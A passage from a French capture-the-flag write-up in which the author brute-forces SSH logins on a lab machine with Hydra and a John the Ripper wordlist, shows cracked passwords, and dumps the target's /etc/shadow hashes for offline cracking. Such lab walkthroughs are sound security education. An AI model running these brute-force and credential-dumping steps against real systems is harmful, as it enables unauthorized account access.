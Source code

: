 Il s'agit de la même attaque, mais avec [le dictionnaire de __John The Ripper__](https://www.openwall.com/john/) cette fois-ci.

Au bout d'une heure et demie, les résultats sont bien plus probants : les mots de passe de Patrick et de Jennifer ont été trouvés.

```console
root@blinils:~# hydra -L usersCTF5.txt -P /usr/share/dict/john.txt 192.168.56.101 ssh -t 10
--snip--
[DATA] max 10 tasks per 1 server, overall 10 tasks, 15535 login tries (l:5/p:3107), ~1554 tries per task
[DATA] attacking ssh://192.168.56.101:22/
[22][ssh] host: 192.168.56.101   login: amy   password: dolphins
[22][ssh] host: 192.168.56.101   login: patrick   password: ne1410s
[STATUS] 166.83 tries/min, 14848 tries in 01:29h, 687 to do in 00:05h, 10 active
[22][ssh] host: 192.168.56.101   login: jennifer   password: homebrew
1 of 1 target successfully completed, 3 valid passwords found
```

### Attaque par dictionnaire avec John The Ripper sur le fichier /etc/shadow

En parallèle de l'attaque avec Hydra, les investigations continuent avec le compte root. Le fichier ```/etc/shadow``` est particulièrement intéressant, car 
[il contient les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd), ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes. L'outil John The Ripper est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow```, comme suit...

```console
[root@localhost ~]# cat /etc/shadow
root:$1$7ailm4aT$4HlsZaiGztAsgj4JXL92Y.:14362:0:99999:7:::
bin:*:14362:0:99999:7:::
daemon:*:14362:0:99999:7:::
adm:*:14362:0:99999:7:::
lp:*:14362:0:99999:7:::
sync:*:14362:0:99999:7:::
--snip--
haldaemon:!!:14362:0:99999:7:::
gdm:!!:14362:0:99999:7:::
patrick:$1$DJYtkxSw$t.47LsE1j2VJKgBVT1Lar0:15679:0:99999:7:::
jennifer:$1$04FqEhSX$Nft0Rs7H2VhUK.fX53cPb1:15679:0:99999:7:::
andy:$1$29jCTuBP$OvytZOP3NacMeAcrbpoMR.:15679:0:99999:7:::
loren:$1$fWsonMXA$1uVln.k4Bh81j2zhCU1jL.:14362:0:99999:7:::
amy:$1$DDLpVzyX$zez4/KCciNorxsjZspzTM0:15679:0:99999:7:::
mysql:!!:14362::::::
cyrus:$1$BzxZidrU$dYMc0ad3NmEJX8L9dNrqJ0:14363::::::
webalizer:!!:16294::::::
[root@localhost ~]#
```

Un troisième dictionnaire est appelé à la rescousse : [rockyou.txt](https://wiki.skullsecurity.org/Passwords).
